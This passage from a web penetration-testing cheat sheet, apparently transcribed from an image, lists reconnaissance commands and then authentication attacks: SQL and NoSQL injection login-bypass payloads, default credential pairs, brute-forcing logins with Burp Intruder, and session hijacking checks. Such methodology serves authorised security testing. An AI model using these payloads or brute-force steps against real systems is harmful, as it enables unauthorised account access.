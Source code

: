 ```bash

# Subdomain enumeration
subfinder -d target_domain
amass enum -d target_domain

USE DEBUGGER INSPECT ELEMENT... setup burp
LOOK FOR PWD, ADMIN, ETC., TEST USERS, CC

BRUTE FORCE LOGIN - INTRUDER
CHECK FOR ACCOUNT LOCKOUT MECHANISMS + 2FA + Encryption/hashing algorithm + PWD POLICY
```

### **Technology Stack Identification**
```bash
# Check for common frameworks/technologies
curl -s target_url | grep -i "generator\|framework\|version"
wafw00f target_url

# Check robots.txt and sitemap
curl target_url/robots.txt
curl target_url/sitemap.xml
```

---

##  **Phase 2: Authentication & Authorization Testing**

### **Common Authentication Bypasses**
```bash
# SQL injection in login
' OR '1'='1' --
' OR '1'='1' #
admin' --
' UNION SELECT NULL,NULL--

# NoSQL injection
{"$ne": null}
{"$regex": ".*"}

# Default credentials testing
admin:admin, admin:password, root:root, administrator:admin
```

### **Session Management Testing**
```bash
# Session fixation
# Check if session ID changes after login

# Session hijacking
# Capture session tokens and test reuse

# Cookie security analysis
# Check for HttpOnly, Secure, SameSite flags
```
